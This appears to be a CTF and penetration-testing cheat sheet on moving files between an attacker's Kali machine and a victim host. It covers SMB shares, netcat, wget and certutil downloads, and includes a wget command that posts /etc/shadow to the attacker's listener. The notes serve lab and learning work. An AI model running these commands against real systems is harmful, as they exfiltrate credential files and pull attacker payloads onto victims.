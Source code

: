 # Transferring Files

## **SMB**

**Kali**

```
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

**Victim**

```
copy C:\File\to\tranfer.exe \\$KALI\public\
```

## Netcat

### Send File

**Kali(receiving)**

```
nc -l -p 1234 > user.jpg
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < user.jpg
```

## wget

### Download File

**Victim (receiving)**

```
wget http://$VICTIM/$FILE

#From non-strandard port
wget http://$VICTIM:81/$FILE
```

### Send File

**Examples**

[wgel-ctf.md](../walkthroughs/tryhackme/wgel-ctf.md "mention")

**Kali(receiving)**

```
nc -lvnp 4444
```

**Victim(sending)**

```
sudo -u root /usr/bin/wget --post-file=/etc/shadow $KALI:4444
```



## **certutil**

**Example**

[retro.md](../walkthroughs/tryhackme/retro.md "mention")[relevant.md](../walkthroughs/tryhackme/relevant.md "mention")

**Kali**

```
python2 -m SimpleHTTPServer 82
```

**Victim**&#x20;

```
certutil -urlcache -f http://$KALI:82/$FILE $FILE
```



